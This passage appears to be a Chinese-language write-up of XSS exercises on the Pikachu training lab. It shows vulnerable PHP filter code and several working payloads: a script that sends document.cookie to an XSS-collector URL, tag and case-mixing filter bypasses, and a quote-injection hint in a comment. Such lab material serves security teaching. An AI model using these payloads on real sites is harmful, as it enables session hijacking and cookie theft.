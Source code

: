到 pikachu 平台下管理工具，进去初始化平台

盗 cookie payload `<script>document.location = 'http://<xss平台地址>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`

![image](../../../img/渗透/实验/pikachu/12.png)

### xss 之过滤
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

这里注释写的很清楚了，不多说了

**漏洞利用**

过滤了 `<script` ，还有很多的标签可以用,再说还有很多绕过方法

- payload: `<marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

- payload: `<ScrIpT>alert('老铁，欧里给!')</sCriPt>`

### xss 之 htmlspecialchars
**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧！</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}
```
